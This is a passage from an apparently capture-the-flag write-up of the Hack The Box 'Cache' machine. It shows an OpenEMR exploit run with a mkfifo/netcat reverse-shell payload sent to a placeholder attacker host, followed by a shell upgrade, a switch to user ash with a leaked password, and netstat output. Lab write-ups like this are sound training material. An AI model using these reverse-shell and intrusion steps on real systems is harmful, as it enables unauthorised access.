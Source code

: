 We can use a bash/nc reverse shell payload:

```
python exploit.py -u openemr_admin -p xxxxxx -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xx.xx.xx.xx 4444 >/tmp/f' http://hms.htb
```

Now, we just need to catch it:

```
nc -nlvp 4444

www-data@cache:
```

Let's upgrade our shell a bit, so we don't accidentally exit out of it:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
(hit enter twice)
```

## www-data to user 2

Looking in the home folder, we can see that ash exists, so we'll try to su to ash with his password from the original website:

```
su ash
Password: H@v3_fun

ash@cache:~$ whoami
ash
```

## Pivoting to user 2

If we check in the /home directory, another user named Luffy exists. Looking at the ports listening with netstat antup, we see something interesting:

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0      0 10.10.10.188:40822      10.10.14.17:22          TIME_WAIT   -                   
tcp        0      0 127.0.0.1:52478         127.0.0.1:11211         TIME_WAIT   -                   
tcp        0      0 127.0.0.1:52498         127.0.0.1:11211         TIME_WAIT   -                   
tcp        0      1 10.10.10.188:34744      8.8.4.4:53              SYN_SENT    -                   
tcp        0      0 10.10.10.188:36870      10.10.14.17:4444        ESTABLISHED -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```